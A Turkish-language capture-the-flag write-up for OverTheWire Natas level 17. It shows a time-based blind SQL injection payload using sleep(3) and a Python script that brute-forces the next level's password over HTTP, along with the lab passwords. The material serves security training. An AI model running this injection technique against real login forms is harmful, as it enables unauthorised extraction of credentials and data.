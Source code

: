 >> natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### Level 17

Level 15'in devamı niteliğinde.

<figure>
<img src="/assets/img/natas/natas171.png">
</figure>

Çıktı veren kısımlar yorum satırı haline getirilmiş. Time Based SQL Injection ile parolayı elde etmeyi deniyoruz.

natas18 " and password LIKE BINARY "a%" and sleep(3) şeklinde bir payload girdiğimde natas18 kullanıcısına ait parolanın a ile başlaması halinde 3 saniyelik bir bekleme olucak.

Benzer bir script çalıştırıyoruz.

{% highlight python %}

import requests
from requests.auth import HTTPBasicAuth
auth=HTTPBasicAuth('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
passwd=""
for i in range(32):
       for char in chars:
               payload = {'username' : 'natas18" and password LIKE BINARY "' +passwd + char + '%" and sleep(3) \x23'}
               s=requests.post('http://natas17.natas.labs.overthewire.org/index.php',data=payload,auth=auth)
               time=s.elapsed.total_seconds()
               if time>1:
                        passwd=passwd+char
                        print passwd
                        break
{% endhighlight %}

>> natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

